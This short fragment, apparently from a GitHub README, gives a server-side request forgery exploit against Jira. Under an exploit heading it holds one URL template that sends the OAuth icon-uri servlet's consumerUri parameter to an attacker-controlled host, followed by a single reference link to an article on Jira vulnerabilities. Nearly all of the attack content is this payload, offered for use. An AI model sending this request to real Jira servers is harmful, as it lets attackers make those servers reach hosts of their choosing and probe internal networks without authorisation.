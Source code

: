 ### exploit server-side request forgery
https://<rhost>/plugins/servlet/oauth/users/icon-uri?consumerUri=https://<lhost>  

### References
https://thehackerish.com/jira-vulnerabilities-and-how-they-are-exploited-in-the-wild  

